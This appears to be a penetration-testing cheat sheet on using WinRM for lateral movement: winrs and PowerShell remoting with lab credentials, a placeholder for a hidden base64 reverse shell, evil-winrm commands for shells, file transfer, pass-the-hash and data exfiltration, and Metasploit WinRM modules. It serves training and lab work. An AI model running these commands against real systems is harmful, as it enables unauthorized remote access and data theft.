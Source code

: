 # Windows Remote Management (WinRM)

WinRM is the Microsoft version of the WS-Management protocol and it exchanges XML messages over HTTP and HTTPS. It uses TCP port 5986 for encrypted HTTPS traffic and port 5985 for plain HTTP.

TCP port 5985 and 5986 (HTTPS)

- <https://en.wikipedia.org/wiki/WS-Management>


Is a Windows remote management protocol that can be used to facilitate remote access with Windows systems.

WinRM is typically used in the following ways:
- Remotely access and interact with Windows hosts on a local network.
- Remotely access and execute commands on Windows systems on the internet.
- Manage and configure Windows systems remotely.

WinRM implements access control and security for communication between systems through various forms of authentication.


*For WinRS to work, the domain user needs to be part of the Administrators or Remote Management Users group on the target host.*










## WinRM
```
C:\Users\jeff>winrs -r:files04 -u:jen -p:Nexus123!  "cmd /c hostname & whoami"
# Output:
FILES04
corp\jen
```


To convert this technique into a full lateral movement scenario, we just need to replace the previous commands with a base64 encoded reverse-shell.

```
winrs -r:files04 -u:jen -p:Nexus123!  "powershell -nop -w hidden -e [ENCODED SHELL]"
```



### PSSession

PowerShell also has WinRM built-in capabilities called PowerShell remoting, which can be invoked via the New-PSSession cmdlet by providing the IP of the target host along with the credentials in a credential object format.

```
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
New-PSSession -ComputerName 192.168.50.73 -Credential $credential
```
To interact with the session ID 1 we created, we can issue the Enter-PSSession cmdlet followed by the session ID:
```
Enter-PSSession 1
whoami
hostname
# Output:
corp\jen
FILES04
```




#### More commands

Execute a Command in the PSSession: Use Invoke-Command to run a command on the remote machine using the session you created.
```
# Execute a command on the remote computer
Invoke-Command -Session $session -ScriptBlock { Get-Process }

```


Interact with the Remote Session: You can also enter the session to interact with it directly.
```
# Enter the remote session
Enter-PSSession -Session $session

```


Exit and close the session:

```
# Exit the remote session
Exit-PSSession

# Remove the PSSession
Remove-PSSession -Session $session


```





















## Evil-Winrm

- <https://github.com/Hackplayers/evil-winrm>

We can also utilize a ruby script called `evil-winrm` to obtain a command shell session on the target system.



```
evil-winrm -i [TARGET IP] -u [USERNAME] -p [PASSWORD]
evil-winrm -i 10.129.136.91 -u administrator -p badminton


> menu



# Upload and download files
evil-winrm -i <IP_ADDRESS> -u <USERNAME> -p <PASSWORD> -s "source" -d "dest"
evil-winrm -i <IP_ADDRESS> -u <USERNAME> -p <PASSWORD> -g "source" -d "dest"


# Script execution
evil-winrm -i <IP_ADDRESS> -u <USERNAME> -p <PASSWORD> -s "powershell_script.ps1"



# Lateral movement
evil-winrm -i <IP_ADDRESS> -u <USERNAME> -p <PASSWORD> -smb <TARGET_IP> -h <HASH>


# Data exfiltration
Compress-Archive -Path "data_directory" -DestinationPath "exfiltrated_data.zip"

evil-winrm -i <IP_ADDRESS> -u <USERNAME> -p <PASSWORD> -g "exfiltrated_data.zip" -d "dest"


```


























## MSF

auxiliary/scanner/winrm/winrm_auth_methods
auxiliary/scanner/winrm/winrm_login
auxiliary/scanner/winrm/winrm_cmd

exploit/windows/winrm/winrm_script_exec
	set FORCE_VBS true
